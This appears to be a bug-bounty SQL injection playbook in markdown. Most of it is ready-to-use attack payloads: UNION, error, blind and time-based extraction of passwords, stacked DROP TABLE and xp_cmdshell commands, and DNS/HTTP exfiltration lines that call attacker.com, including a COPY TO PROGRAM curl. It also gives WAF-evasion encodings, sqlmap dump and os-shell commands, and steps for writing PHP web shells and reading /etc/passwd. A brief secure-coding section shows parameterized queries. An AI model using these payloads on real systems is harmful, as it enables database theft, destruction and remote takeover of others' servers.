

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: XSS](Cross-Site%20Scripting%20(XSS).md) >>*
---
---

# SQL Injection : Master Playbook

> **Goal:** Manipulating backend SQL queries via unsanitized input to extract, modify, or delete database information. This is one of the most critical web vulnerabilities, often leading to full database compromise.
> **Triggers:** Any input field, URL parameter, or header that talks to a database (e.g., `?id=1`, search bars, login forms).
> **Context:** A database is like an organized Excel spreadsheet. The server asks the database questions using SQL code (e.g., "Get the user where ID = 1"). If the server blindly trusts your input, you can type special characters (like a single quote `'`) to end the developer's question early and start asking your own questions (e.g., "Actually, give me all the passwords").
> **Hacker Mindset:** "The server thinks I'm just giving it a name. But I'm going to give it a piece of code. If it runs my code, I own the database."

---

## 0. Exploit Selection Search Tree
*Use this logic to decide which technique to use based on the server's response:*



1.  **Do you see raw SQL errors in the response?**
    *   **Yes** → Use **[[#2.1 Error-Based]]** (Fastest, leaks data directly in errors).
2.  **Does the page support multiple results and allow you to find the column count?**
    *   **Yes** → Use **[[#2.2 UNION-Based]]** (Fastest for bulk data extraction).
3.  **Does the page content change based on a true/false condition (e.g., `?id=1 AND 1=1`)?**
    *   **Yes** → Use **[[#2.3 Blind (Boolean-Based)]]**.
4.  **Is the response identical regardless of your input (Total Blind)?**
    *   **Yes** → Use **[[#2.4 Blind (Time-Based)]]** (Slow, but bypasses most filters).
5.  **Receiving 403 Forbidden or WAF Blocks?**
    *   **Yes** → Pivot to **[[#6. WAF Bypass & Stealth]]** (Encoding/Tamper scripts).
6.  **Are both boolean and timing blocked? Can the server make external requests?**
    *   **Yes** → Try **[[#4. Out-of-Band (OOB) Exfiltration]]** (General OOB).
7.  **Do you need high-speed data exfiltration via DNS logs (OAST)?**
    *   **Yes** → Use **[[#4.1 DNS Exfiltration (Fastest OOB)]]**.
8.  **Is your payload stored and executed later (e.g., in a profile reset)?**
    *   **Yes** → Try **[[#3. Second-Order SQL Injection]]**.
9.  **Can you force the DB to convert a string to an int to leak schema data?**
    *   **Yes** → Use **[[#2.1 Error-Based]]** (Conversion-Based Leak).
10. **Can you find the reflecting column for a UNION attack using NULL variables?**
    *   **Yes** → Use **[[#2.2 UNION-Based]]** (Column Discovery).
11. **Are you using SQLMap and need specific WAF bypass scripts?**
    *   **Yes** → See **[[#6.5 SQLMap Tamper Scripts]]**.

---

## 1. Methodology & UX Impact Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Error-Based** | Forcing the machine to "complain" until it leaks secrets. | SQL Syntax Error reflected on page. | Database version/user appears in error message. | **Critical** (P1) |
| **UNION-Based** | Gluing your stolen data onto the end of a real request. | Content-Length changes or new data renders. | Stolen data (e.g., passwords) appears in page list. | **Critical** (P1) |
| **Boolean-Blind** | Playing "20 Questions" with a nodding server. | Page loads "Success" for True, "Error" for False. | Content disappears when 1=2 is injected. | **High/Critical** |
| **Time-Based** | Making the server "pause" to whisper the truth. | Response delay exactly matches your `SLEEP()` value. | `SLEEP(10)` causes a 10s wait. | **High/Critical** |
| **OOB / DNS** | Forcing the server to "phone home" to your listener. | External DNS/HTTP request logged in your Interactsh. | You see `stolen-data.your-server.com` in logs. | **Critical** (P1) |

---

## 1. Detection & Fingerprinting

> **Goal:** Force the backend database to reveal itself by sending it broken code or logic tests.
> **Triggers:** Numerical IDs, Search filters, Login forms, and Sorting parameters (`sort=name`).
> **Context:** Before you can steal data, you must prove the vulnerability exists. We do this by throwing "wrenches" (special characters) into the gears. If the gears grind and spit out an error, or if the machine slows down, we know we've hit the database.
> **Hacker Mindset:** "I'm going to break the syntax on purpose. Let's see if the server complains about it."

### 1.1 Initial Probing
*   **Error Triggers**: Inject `' " ) ; --` into every input field, header, and cookie. Watch for verbose SQL syntax errors.
*   **Anomaly Detection**: Allocate 70% of initial testing time to broad fuzzing. Monitor response size (Content-Length) and timing differentials.
*   **ORM Escape Hatches**: Specifically target features that require complex queries (reporting, advanced search) as developers often drop to raw SQL wrappers here.

### 1.2 DBMS Fingerprinting
| DBMS | Version Query | String Concat | Comment Style |
| :--- | :--- | :--- | :--- |
| **MySQL** | `SELECT @@version` | `CONCAT('a','b')` | `-- ` or `#` |
| **PostgreSQL** | `SELECT version()` | `'a' || 'b'` | `--` |
| **MSSQL** | `SELECT @@version` | `'a' + 'b'` | `--` |
| **Oracle** | `SELECT banner FROM v$version` | `'a' || 'b'` | `--` |
| **SQLite** | `SELECT sqlite_version()` | `'a' || 'b'` | `--` |

---

## 2. Exploitation Techniques

### 2.1 Error-Based
> **Goal:** Trick the database into vomiting sensitive data directly onto the screen inside an error message.
> **Triggers:** Pages that currently display verbose database errors when you inject a `'`.
> **Context:** If the website is poorly configured, it will show you the exact reason *why* your SQL failed. We can intentionally cause mathematical or conversion errors that include the data we want to steal within the error text itself.
> **Hacker Mindset:** "I will ask the database to convert the Admin's password into an integer. When it fails, the error will say 'Cannot convert string [password_here] to integer!'"

*Used when the application reflects raw database error messages. This is the most efficient manual method.*

*   **Logic Leak**: Triggering errors via data type mismatches (e.g., `?id='not_an_int'`).
*   **Schema Inference**: Inject symbols `' * - ) "` to break the query and force a syntax error.
*   **Leak Table Name (MySQL)**: `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1),0x7e,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)-- # Triggers "Duplicate entry" error containing table name`
*   **Leak Column (MSSQL)**: `' AND 1=(SELECT TOP 1 name FROM sys.columns WHERE object_id=OBJECT_ID('users'))-- # Triggers conversion error leaking column name`

### 2.2 UNION-Based
> **Goal:** Combine ("UNION") the developer's original query with your own malicious query, forcing the page to display your stolen data alongside the normal data.
> **Triggers:** Pages that list items (like products, users, or news articles).
> **Context:** The `UNION` command glues two tables together. But there's a catch: both tables must have the exact same number of columns! So first, we must guess how many columns the original table has, and then we inject our data into those slots.
> **Hacker Mindset:** "The page normally shows 3 columns: Product Name, Price, Description. I will UNION that with: Admin Username, Admin Password, and NULL. Now the page will render the passwords as if they were products!"

*Used when you can "extend" the original query to return your own data and reflect it on the screen.*

*   **Step 1: Column Count**: `ORDER BY 3-- # If '3' works but '4' errors, the table has exactly 3 columns`
*   **Step 2: Find Reflecting Column**: `' UNION SELECT 'a','b','c'-- # Look for 'a', 'b', or 'c' on the page to find where data renders`
*   **Step 3: Extract Schema**: `' UNION SELECT NULL,table_name,NULL FROM information_schema.tables-- # Extract first table name`
*   **Step 4: Extract Data**: `' UNION SELECT username,password,NULL FROM users-- # Directly dump high-value credentials`

### 2.3 Blind (Boolean-Based)
> **Goal:** Steal data letter by letter by asking the database True/False questions.
> **Triggers:** A page where you get NO error messages and NO data reflection, but the page *content* changes depending on if your statement is true or false.
> **Context:** Imagine playing "20 Questions" with someone who can only nod or shake their head. You ask: "Does the password start with an 'A'?" If the page loads normally (True), you write down 'A'. If the page disappears (False), you ask about 'B'. It's tedious, but deadly.
> **Hacker Mindset:** "I can't see the database, but I can see if the website says 'Welcome' or 'Not Found'. I'll use that as my True/False indicator."

*Used when the page content changes (e.g., "Welcome back" vs "User not found") but no data is reflected.*

*   **Manual Testing**: `' AND 1=1-- # Should return "True" baseline. ' AND 1=2-- # Should return "False" baseline.`
*   **Binary Search Selection**: `' AND SUBSTR((SELECT password FROM users WHERE username='admin'),1,1)>'m'-- # If True, password starts with N-Z. If False, A-M.`
*   **Automation (Burp)**: Map character indices to Intruder payloads to reconstruct the string.

### 2.4 Blind (Time-Based)
> **Goal:** Steal data when the page is completely static (no errors, no true/false changes) by forcing the server to pause.
> **Triggers:** Completely blind endpoints where logging in, searching, or submitting a form always looks exactly the same regardless of success.
> **Context:** Since we can't see *anything*, we use time. We ask: "If the password starts with 'A', wait 10 seconds before responding. If not, respond instantly." By measuring how long the website takes to load, we can steal data letter by letter.
> **Hacker Mindset:** "I'm blind and deaf to the response, but I have a stopwatch. I'll make the server's CPU sleep to whisper the secrets to me."

*Used when the response is identical. We force the server to wait to "whisper" information.*

*   **Confirmation**: `1' AND SLEEP(5)-- # If the page takes 5+ seconds to load, it's vulnerable.`
*   **Character Extraction**: `1' AND (SELECT 1 FROM (SELECT(IF(SUBSTR(password,1,1)='a',SLEEP(5),0)))a)-- # If request takes 5s, the first letter is 'a'.`
*   **Optimization**: Use `BENCHMARK()` or heavy math operations if `SLEEP()` is blocked by WAFs.

### 2.5 Stacked Queries
> **Goal:** Execute a completely separate, destructive second query after the first one finishes.
> **Triggers:** APIs or backend drivers (like PHP's PDO or MSSQL) that support running multiple lines of SQL separated by a semicolon `;`.
> **Context:** Instead of just messing with the developer's query, we end it with a `;` and start a brand new one. This is how entire tables are dropped or OS commands are executed.
> **Hacker Mindset:** "Forget stealing data. I'm going to attach a command to delete the whole database right onto the end of my name."

*   **Concept**: If supported, inject a second independent query: `'; DROP TABLE users;--`
*   **MSSQL**: `'; EXEC xp_cmdshell 'whoami';--`

---

## 3. Second-Order SQL Injection
> **Goal:** Plant a malicious payload in the database now, so it detonates later when an administrator views it.
> **Triggers:** "Update Profile" pages, "Shipping Address" forms, or any input that gets saved and viewed somewhere else.
> **Context:** The server might safely escape your input when you *save* your profile. But later, when a background script generates a PDF invoice, it might pull your profile data from the database and insert it *unsafely* into a completely new query.
> **Hacker Mindset:** "I won't attack the front door. I'll leave a trap inside the database. When the backend processing engine runs tonight, it will trigger my payload."

*   **Testing Hidden Variables**: Look for IDs or variables hitting the DB indirectly, e.g., `{"invite_code": 1234}` -> `{"invite_code": "1234' OR 1=1--"}`.
*   **RSQL / Complex Queries**: REST Query Language (RSQL) inputs are heavily susceptible to logical injections if improperly parsed.

Payload is stored in the database and later executed in a different context.

### 3.1 Workflow
1.  **Phase 1 (Store)**: Inject payload into persistent fields (e.g., username: `admin' --`).
2.  **Phase 2 (Trigger)**: Execute a function that uses the stored value (e.g., "Reset Password" for `admin`).

### 3.2 Strategy
*   Identify **Input Sinks** (e.g., Profile Update) and **Read Sinks** (e.g., Admin Panel).
*   Inject SQL markers (e.g., `admin' --`) into Profile and check if it resets an admin's password or alters a secondary query.
*   **Automation**: `sqlmap -r request.txt --second-order="https://target.com/admin/reports"`

---

## 4. Out-of-Band (OOB) Exfiltration
> **Goal:** Force the database server to make an HTTP or DNS request to an external server you control, carrying the stolen data with it.
> **Triggers:** High-security environments where the firewall blocks outgoing web traffic, or where Time-Based injection is too slow/unreliable.
> **Context:** If the front door is locked (no screen output) and the windows are painted black (no time delays), we dig a tunnel. We tell the database to look up a website (e.g., `[admin_password].attacker.com`). Our DNS server logs the request, and we get the password!
> **Hacker Mindset:** "The web server won't tell me the answer. I'll force the underlying database to phone home to my server with the stolen goods."

*Used when the server is "silent" (no errors, no content change, no timing) but can still make external network requests.*

### 4.1 DNS Exfiltration (Fastest OOB)
*   **MySQL (Windows)**: `LOAD_FILE(CONCAT('\\\\',(SELECT version()),'.attacker.com\\a')) # Forces DNS lookup of [version].attacker.com`
*   **MSSQL**: `EXEC master..xp_dirtree '\\attacker.com\share' # Triggers NTLM auth or DNS lookup to your listener`

### 4.2 HTTP Exfiltration
*   **Oracle**: `SELECT UTL_HTTP.REQUEST('http://attacker.com/'||(SELECT user FROM dual)) FROM dual; # Sends username in the URL path`
*   **PostgreSQL**: `COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/?d=$(whoami)' # Executes shell command and pipes output to your server`

---

## 5. SQLMap: Professional Automation
> **Goal:** Automate the tedious process of extracting tables and columns once an injection point is manually confirmed.
> **Triggers:** You successfully triggered a sleep or boolean change manually, and now you want to dump the database quickly.
> **Context:** Never run an automated scanner blindly against a site—it creates massive noise and gets you banned. But once you manually find the tiny crack, you use a power drill like SQLMap to open the safe.
> **Hacker Mindset:** "I've proven the lock is broken. Now I'll let the robot extract all the gold."

*While manual testing is key for bypasses, SQLMap is the industry standard for data extraction.*

### 5.1 The "Gold Standard" Request Workflow
1.  **Intercept**: Capture a valid request in Burp. 
2.  **Save**: Right-click -> "Copy to file" (e.g., `search.req`).
3.  **Execute**: `sqlmap -r search.req --batch --dbs # --batch skips all interactive prompts`

### 5.2 Advanced Tuning
*   **WAF Evasion**: `--tamper=space2comment,between,randomcase # Multi-layer obfuscation`
*   **Level/Risk**: `--level 3 --risk 3 # Tests more headers (User-Agent, Referer) and risky payloads`
*   **Stealth**: `--threads=1 --delay=2 # Slows down requests to avoid rate-limiting`

### 5.3 Post-Exploitation & Impact
*   **Privilege Check**: `--is-dba` (Check for high-privilege access).
*   **Data Exfiltration**: `--dump` (Extract sensitive tables).
*   **System Access**: `--os-shell` (Attempt interactive shell if `FILE` privileges exist).
*   **Full Enumeration**: `sqlmap -u "URL?id=1" --dbs --tables --columns --dump`

---

## 6. WAF Bypass & Stealth
> **Goal:** Sneak malicious SQL payloads past the Web Application Firewall (WAF) that is searching for obvious attacks like `OR 1=1`.
> **Triggers:** Receiving a `403 Forbidden` or a "Blocked by Cloudflare/AWS" page when sending an injection.
> **Context:** WAFs use regex (pattern matching) to block bad words. If they block spaces, we use tabs or comments. If they block the word "SELECT", we write "sElEcT" or URL-encode it. It's a game of disguise.
> **Hacker Mindset:** "The bouncer is looking for a guy named 'SELECT'. I'll wear a mustache and call myself 'S%45LECT'."

*When standard payloads like `' OR 1=1` are blocked.*

### 6.1 Whitespace & Case Obfuscation
*   **Comments**: `SELECT/**/username/**/FROM/**/users # Replaces spaces with comments`
*   **Case**: `sElEcT uSeRnAmE fRoM uSeRs # Bypasses poorly written regex filters`

### 6.2 Encoding Escalation
1.  **URL Encode**: `%27%20OR%201%3D1`
2.  **Double URL Encode**: `%2527%2520OR%25201%253D1 # Often bypasses front-end proxies that decode once`
3.  **Hex**: `SELECT * FROM users WHERE name = 0x61646d696e # Bypasses filters looking for the string "admin"`

### 6.3 Advanced Stealth Operators (WAF-Friendly)
*   **MySQL RLIKE**: `' RLIKE (SELECT (CASE WHEN (1=1) THEN 1 ELSE 0 END)) # Stealth boolean evaluation.`
*   **ELT Function**: `AND ELT(1,1) # Simple truth check using list selection.`
*   **No-Quotes (MSSQL)**: `SELECT * FROM users WHERE name = 0x61646d696e # Hex-encoded "admin" bypassing string filters.`

### 6.4 SQLi Polyglot
```sql
SLEEP(10) /*' or SLEEP(10) or '" or SLEEP(10) or "*/
```
> Triggers time-based delays across MySQL, PostgreSQL, and SQLite.

### 6.5 SQLMap Tamper Scripts
*   `space2comment` — Replace spaces with `/**/`.
*   `between` — Replace `>` with `NOT BETWEEN 0 AND`.
*   `charencode` — URL-encode all characters.
*   `randomcase` — Randomize keyword casing.

---

## 7. Target Chaining & Pivots
*SQL Injection is rarely the end goal. Use it to pivot to higher-impact bugs:*

*   **SQLi → RCE**: If the DB user has high privileges, use `INTO OUTFILE` (MySQL), `xp_cmdshell` (MSSQL), or `COPY FROM PROGRAM` (Postgres) to gain a shell.
*   **SQLi → SSRF**: Use OOB functions (`LOAD_FILE`, `UTL_HTTP`) to probe internal network ports.
*   **SQLi → Account Takeover**: Use `UNION` to extract session tokens/JWT secrets from the `sessions` or `config` tables.
*   **SQLi → WAF Bypass Expansion**: Successful SQLi often reveals internal server paths or versions; use this to refine your [[WAF & Infrastructure Bypasses [MASTER].md]] strategy.

---

## 8. ORM Escape Hatches

Identify endpoints where developers bypass ORMs using raw SQL:
*   **Node.js**: `prisma.$queryRawUnsafe()`, `sequelize.query("raw...")`
*   **Python**: `cursor.execute(f"SELECT... {user}")`
*   **Django**: Raw SQL via `connection.cursor()` or `extra()` / `RawSQL()`
*   **Ruby on Rails**: `ActiveRecord::Base.connection.execute()`

> **Target**: Features requiring complex queries (reporting, advanced search) where devs often drop to raw SQL.

---

## 9. DBMS-Specific Cheat Sheets

### 9.1 MySQL
*   **Version**: `@@version`
*   **Current DB**: `DATABASE()`
*   **Tables**: `SELECT table_name FROM information_schema.tables`
*   **Read File**: `LOAD_FILE('/etc/passwd')`
*   **Write File**: `INTO OUTFILE '/var/www/shell.php'`
*   **Command Exec**: Not native; requires `INTO OUTFILE` + web shell or UDF.

### 9.2 MSSQL
*   **Version**: `@@version`
*   **Current DB**: `DB_NAME()`
*   **Tables**: `SELECT name FROM sysobjects WHERE xtype='U'`
*   **Command Exec**: `EXEC xp_cmdshell 'whoami'`
*   **DNS Exfil**: `EXEC master..xp_dirtree '\\attacker.com\share'`
*   **Enable xp_cmdshell**: `EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE`

### 9.3 PostgreSQL
*   **Version**: `version()`
*   **Current DB**: `current_database()`
*   **Tables**: `SELECT tablename FROM pg_tables WHERE schemaname='public'`
*   **Command Exec**: `COPY (SELECT '') TO PROGRAM 'id'` (Requires superuser).
*   **File Read**: `pg_read_file('/etc/passwd')`

### 9.4 Oracle
*   **Version**: `SELECT banner FROM v$version`
*   **Current User**: `SELECT user FROM dual`
*   **Tables**: `SELECT table_name FROM all_tables`
*   **HTTP Exfil**: `UTL_HTTP.request('http://attacker.com/'||data)`

---

## 10. Context-Specific SQLi

### 10.1 RESTful Login Bypass
*   **Payload**: `{"email": "' OR 1=1 --", "password": "any"}`
*   **Triage**: Backend concatenating JSON input directly into SQL query.

### 10.2 SOAP/XML Parameter Injection
*   **Payload**: `<username>admin' OR '1'='1 -- </username>` in SOAP body.
*   **Symptom**: Verbose XML faults or stack traces referencing backend scripts.

### 10.3 Header-Based Injection
*   **Targets**: `User-Agent`, `Referer`, `X-Forwarded-For`, `Cookie` headers.
*   **Payload**: `en-US'; WAITFOR DELAY '0:0:9'--` (Accept-Language).

### 10.4 GraphQL Boolean-Based Blind SQLi
*   **Trigger**: Parameters inside GraphQL queries (e.g., `oauthClientID`).
*   **Methodology**:
    1.  Test True: `query { method(id: "14') OR 1=1 AND '1'='1") { name } }` -> `200 OK`.
    2.  Test False: `query { method(id: "14') OR 1=2 AND '1'='1") { name } }` -> `504 Gateway Timeout`.

### 10.5 Search Feature Injection (MATCH...AGAINST)
*   **Trigger**: Test payloads inside `MATCH(col) AGAINST('payload' IN BOOLEAN MODE)`.
*   **Payload**: `') OR 1=1 --` (if query is `MATCH(title) AGAINST('$input' IN BOOLEAN MODE)`).

### 10.6 Schema Paging (No-UNION Enumeration)
*   **Technique**: Use `LIMIT` and `OFFSET` to leak table names if `UNION` is blocked.
*   **Query**: `?id=1 AND (SELECT SUBSTR(table_name,1,1) FROM information_schema.tables LIMIT 1 OFFSET 0)='a'`

---

## 11. Secure Coding Patterns

### 11.1 Parameterized Queries
```javascript
// Node.js (pg)
pool.query('SELECT * FROM users WHERE id = $1', [userId]);
```
```php
// PHP PDO
$stmt = $pdo->prepare('SELECT * FROM users WHERE email = ?');
$stmt->execute([$email]);
$user = $stmt->fetch();
```
```python
### Python (psycopg2)
cursor.execute("SELECT * FROM users WHERE id = %s", (user_id,))
```

### 11.2 ORM Best Practices
*   Never use raw query methods with user input.
*   Use parameterized finders: `User.findOne({ where: { id: userId } })`.
*   Validate and cast input types before passing to any query layer.

### 11.3 WAF Bypass: Filter Context Breaks
*   **Technique**: Exploiting differences in how WAFs and DBs interpret quoting.
*   **Payload**: `') OR 1=1 --` (Closing with single quote) vs `") OR 1=1 --` (Double quote).
*   **Signatures**: If the WAF only filters `OR 1=1`, try `OR 2=2` or `OR 'a'='a'`.

---

## 12. Advanced PostgreSQL & XSLT Escalations

### 12.1 PostgreSQL: Binary File Upload (RCE)
1.  **Create Object**: `SELECT lo_creat(-1);` (Returns `LOID`).
2.  **Insert Hex**: `INSERT INTO pg_largeobject (loid, pageno, data) VALUES (LOID, 0, decode('<?php...hex>', 'hex'));`
3.  **Export**: `SELECT lo_export(LOID, '/var/www/html/shell.php');`

### 12.2 PostgreSQL: Network Pivoting (dblink)
*   **Vector**: Use `dblink` to scan internal ports or steal credentials via local trust.
*   **Scan**: `SELECT * FROM dblink_connect('host=127.0.0.1 port=22 user=a password=b');`

### 12.3 XSLT Injection
*   **Trigger**: XML/SQLi sinks that process XSLT stylesheets.
*   **File Read (2.0)**: `<xsl:value-of select="unparsed-text('/etc/passwd')"/>`
*   **RCE (PHP)**: `<xsl:variable name="payload" select="php:function('shell_exec', 'id')"/>`

## 13. War Stories & Bounty Insights

*   **Binary SQLi Cookie Theft**: Reverse-engineered a .NET VCS client with an unparameterized SQLite query in filenames. Used `ATTACH DATABASE` + `VACUUM` to steal Chrome cookie store. **Bounty: $30k-$40k.**
*   **MATCH...AGAINST PII Leak [Audit-4.8D]**: Found a blind SQLi in a search feature that used boolean mode. Extracted 4.5m records via schema paging (`LIMIT/OFFSET`).
*   **Postgres RCE via SSRF/SQLi**: `COPY FROM PROGRAM 'id'` via Gopher SSRF to internal Postgres.

---

## 14. SQLi Toolbox

| Tool | Primary Command |
| :--- | :--- |
| **SQLMap** | `sqlmap -r req.txt --batch --dbs` |
| **Ghauri** | `ghauri -r req.txt --batch --dbs` (For WAF bypass) |
| **NetExec (NXC)** | `nxc mssql <target> -u <user> -p <pass> -M xp_cmdshell` |
| **Burp Scanner** | Built-in Audit for automated discovery. |

## Resources
*   [PortSwigger SQL Injection Labs](https://portswigger.net/web-security/sql-injection)
*   [PayloadsAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
*   [SQLMap Documentation](https://sqlmap.org/)

---
---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: XSS](Cross-Site%20Scripting%20(XSS).md) >>*
